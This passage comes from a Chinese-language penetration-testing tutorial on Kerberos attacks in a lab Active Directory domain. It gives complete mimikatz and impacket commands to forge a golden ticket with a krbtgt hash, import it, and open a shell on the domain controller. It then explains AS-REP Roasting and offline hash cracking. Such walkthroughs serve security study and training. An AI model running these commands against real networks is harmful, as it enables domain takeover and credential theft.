 ```
mimikatz "kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805/krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2 /user:administrator /ticket:gold.kirbi"
```

生成文件 gold.kirbi  

导入 Golden Ticket，执行命令：

```
kerberos::ptt C:\Users\jack.0DAY\Desktop\gold.kirbi
```

获得域控权限  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIM854h9gJUpBhaSFDWZc6SImlHTdu7iavESYK3nx722RajXc04eyiaP3g/640?wx_fmt=png)

  
**注意这里格式只能是 主机名. 域名 的形式，而不能写 ip**  

**2. 使用 impacket**  
这里使用 kali，不在域内只需要把 dns 改为域控即可  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIlNcCTl8KIBONzBqMUiaGgdqMjXFJK9kvsTmNmAiaZzEN0RTWh0Bn3K9w/640?wx_fmt=png)

  
先生成票据 administrator.ccache ``` python3 ticketer.py -domain-sid S-1-5-21-1812960810-2335050734-3517558805 -nthash 36f9d9e6d98ecf8307baf4f46ef842a2 -domain 0day.org administrator ```

  
导入票据

```
export KRB5CCNAME=administrator.ccache
```

然后在访问域控

```
python3 smbexec.py -no-pass -k OWA2010SP3.0day.org
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIaUIBTvEx9VvwYZDcthJJhxn5GgEVdYia1QkficB4nPux1EByA8qgczicQ/640?wx_fmt=png)

### 2.AS-REP Roasting

在 AS-REP 阶段，最外层的 enc-part 是用用户密码 Hash 加密的。对于域用户，如果设置了选项” Do not require Kerberos preauthentication”，此时向域控制器的 88 端口发送 AS_REQ 请求，对收到的 AS_REP 内容 (enc-part 底下的 ciper，因为这部分是使用用户 hash 加密的 Login Session Key，我们通过进行离线爆破就可以获得用户 hash) 重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式，接下来可以使用 hashcat 对其破解，最终获得该用户的明文口令，这就造成了 AS-REP Roasting 攻击。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIKrfFtDXa0vSRuOthNKMlEkRlvcXR280Z8rK0VyibGaYzX04IITh19ww/640?wx_fmt=png)

  
默认这个功能是不启用的，如果启用 AS-REP 会返回用户 hash 加密的 sessionkey-as，这样我们就可以用 john 离线破解  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaImLGoAKoynQR4kQGSJo6kbxdQOKeqZUhYF7p0wdibRiazFmic27cH79EjQ/640?wx_fmt=png)

  
使用 Empire 下的 powerview.ps1 查找域中设置了 "不需要 kerberos 预身份验证" 的用户
